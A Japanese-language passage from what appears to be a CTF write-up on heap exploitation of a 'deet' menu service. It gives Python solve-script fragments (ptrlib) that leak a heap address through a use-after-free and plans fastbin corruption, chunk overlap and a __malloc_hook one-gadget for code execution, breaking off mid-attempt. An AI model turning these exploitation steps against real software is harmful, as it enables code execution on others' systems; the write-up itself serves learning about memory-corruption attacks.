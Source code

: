 ```python

sice_deet(0x10, b"A" * 0x10)
sice_deet(0x10, b"B" * 0x10)
destroy_deet(1)
destroy_deet(0)

data = observe_deet(0)
addr_heap = u64(data[:8])
dump("addr heap = " + hex(addr_heap))
```

これで2つ目に生成したdeetのアドレスが取得できています。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=9594)
[ptrlib] addr heap = 0x563bef3f5280
```

次はfastbin corruption attackかなーと思ったのですが、正直サイズチェックがあるのでfastbin attackはあんまり上手くいかない印象が強いです。
せめてlibcのアドレスがわかれば`__malloc_hook`を使ってone gadget rceを呼べるのですが、今はlibcのアドレスを持っていません。
ということで、まずはlibcのアドレスを取得することから考えましょう。

一番簡単そうなのはunsorted binを使う方法ですが、deetで生成できるサイズは0x78までで、fastbinの範囲に収まっています。
overlapを引き起こせればチャンクのサイズを書き換えてunsorted binに入れられるかもしれません。
今ヒープのアドレスが分かっているので、fastbin attackでそこから0X10引いたアドレスをリンクしてやれば、チャンクサイズを書き換えることが可能です。
ヒープ上ですので、そのチャンクのサイズは前のチャンクのデータ部にあたり、偽装できます。

と思って次のようなコードを書いたのですが、
```python
from ptrlib import *
from time import sleep

def sice_deet(size, data):
    sock.recvuntil("4. Exit")
    sock.sendline("1")
    sock.sendline(str(size))
    sock.send(data)

def observe_deet(index):
    sock.recvuntil("4. Exit")
    sock.sendline("2")
    sock.recvuntil("Which deet would you like to view?")
    sock.recvuntil("> ")
    sock.sendline(str(index))
    return sock.recvline().rstrip()

def destroy_deet(index):
    sock.recvuntil("4. Exit")
    sock.sendline("3")
    sock.sendline(str(index))

#sock = Socket("p1.tjctf.org", 8002)
sock = Socket("localhost", 8002)

# leak heap addr
sice_deet(0x20, b"A" * 0x20) # 0
sice_deet(0x20, b"B" * 0x20) # 1
destroy_deet(1)
destroy_deet(0)
data = observe_deet(0)
addr_heap = u64(data[:8])
dump("addr heap = " + hex(addr_heap))

# overlap
destroy_deet(1)
```